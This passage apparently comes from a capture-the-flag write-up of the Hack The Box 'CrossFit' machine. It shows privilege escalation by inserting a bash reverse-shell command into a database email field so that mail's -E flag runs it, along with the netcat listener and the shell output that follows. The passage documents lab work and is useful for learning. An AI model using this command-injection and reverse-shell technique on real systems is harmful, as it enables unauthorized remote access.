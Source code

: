 Looking at the `mail` program's help, I noticed that there was a flag `-E` that allowed for execution of commands. Since I already had the credentials to the database, it seemed likely that I could create an entry in the user's table that contained code I wanted to execute as `isaac` in the email field of the database to be loaded and run within`send_updates.php`. `isaac` did not have a `.ssh` folder to insert my public key to, so I needed to craft a reverse shell instead.  

```text
hank@crossfit:/home/isaac$ mysql -u crossfit -p -D crossfit
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 11007
Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [crossfit]> select * from users
users        users.email  users.id     
MariaDB [crossfit]> INSERT INTO users (id, email) VALUES ("1", "-E $(bash -i >& /dev/tcp/10.10.15.98/8099)");
Query OK, 1 row affected (0.003 sec)

MariaDB [crossfit]> select * from users;
+----+------------------------------------------------------------+
| id | email                                                      |
+----+------------------------------------------------------------+
|  1 | -E $(bash -c 'bash -i >& /dev/tcp/10.10.14.176/8099 0>&1') |
+----+------------------------------------------------------------+
1 row in set (0.000 sec)
```

I logged into MySQL using the same credentials as before, and checked for the field names in the `user` table so I knew how to frame my query to insert my reverse shell into the correct field.  I assumed that the `id` field was set to `AUTO_INCREMENT`, but just in case I set it to the value "1" to ensure my code would be the first entry.  The script from earlier said it pulled only the first entry.  

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ nc -lvnp 8099
listening on [any] 8099 ...
connect to [10.10.14.176] from (UNKNOWN) [10.10.10.208] 53362
bash: cannot set terminal process group (1855): Inappropriate ioctl for device
bash: no job control in this shell
isaac@crossfit:~$ test
isaac@crossfit:~$ exit
```

I got a connection back from my injected code, however it also immediately ran two commands \( I did not type these: `test` and `exit`\) which caused it to disconnect.  I also could not get the same injected command to work later for some reason.  I had no idea what was broken here, or why those commands got run. 
